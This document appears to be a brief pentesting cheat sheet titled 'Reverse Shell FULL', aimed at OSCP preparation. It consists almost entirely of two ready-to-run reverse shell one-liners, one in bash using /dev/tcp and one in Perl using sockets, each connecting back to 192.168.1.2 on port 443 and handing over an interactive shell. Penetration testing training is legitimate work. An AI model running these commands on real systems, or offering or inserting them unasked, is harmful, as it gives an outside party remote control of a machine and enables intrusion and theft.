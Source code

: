 # Reverse Shell FULL
Reverse Shell collection for: Pentesting - OSCP

## bash##
bash -i >& /dev/tcp/192.168.1.2/443 0>&1

## perl##
perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
